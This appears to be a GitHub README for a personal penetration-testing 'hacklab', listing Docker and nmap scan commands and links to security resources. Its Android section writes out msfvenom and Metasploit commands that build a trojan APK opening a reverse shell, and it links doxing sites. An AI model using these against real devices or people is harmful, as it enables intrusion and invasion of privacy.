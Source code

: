 Docker Hacklab
===

> My personal hacklab

Quick Start
---

```bash
# Run Hacklab
docker run -d --name hacklab --net=host --privileged -it jcherqui/docker-hacklab

# Vuln Scanners
docker run -d --name nessus -p 8834:8834 infoslack/nessus
docker run -d --name openvas -p 443:443 -p 9390:9390 -p 9391:9391 mikesplain/openvas
```

Doxing/OSINT
---

- http://www.peekyou.com/
- https://pipl.com/

Cheat Sheet
---

- http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

Autopwn
---

https://github.com/ngalongc/AutoLocalPrivilegeEscalation

ClickJacking
---

https://samy.pl/quickjack/

Android
---

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> R > FILENAME.apk
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <ip> *
set LPORT <port>
exploit -j
```

https://android.fallible.co/

NMAP
---

nmap -Pn --script=dns-brute <host> # Find subdomains of a website
nmap -Pn --script=mysql-info <host> # Find mysql version
nmap -Pn --script=http-sitenap-generator <host> # Display directory structure
nmap -sV --script=vulscan <host> # Display vuln
nmap -sV --script-args vulnscandb=exploit <host> # //
nmap -Pn --script=http-xssed <host> # Search on xssed.com if XSS vulnerability
nmap -sV  –script=http-sql-injection <host> # Test injection SQL

TOP Channels youtube
---

- https://www.youtube.com/user/Hak5Darren/videos
- https://www.youtube.com/user/DEFCONConference/videos
- https://www.youtube.com/user/BlackHatOfficialYT/videos
- https://www.youtube.com/user/JackkTutorials/videos
- https://www.youtube.com/channel/UCO51Z4c1R8EPHZioGwgBmDw/videos
- https://www.youtube.com/playlist?list=PLkRo97mCIn9lgvE7AskNsmwJVOlJX2zaI
- https://www.youtube.com/channel/UC286ntgASMskhPIJQebJVvA/videos
- https://www.youtube.com/user/gaytony10/playlists
- https://www.youtube.com/user/bhargavtandel/videos

Links
---

- https://github.com/enaqx/awesome-pentest
- https://github.com/Hack-with-Github/Awesome-Hacking
- https://github.com/sindresorhus/awesome#security
- https://penetration-testing.zeef.com/jeroen.rijken
- http://sectools.org/
- http://pwnwiki.io/
- https://www.cybrary.it/
- http://null-byte.wonderhowto.com/
- https://hackademics.fr

License
---

MIT

Free Software, Hell Yeah !
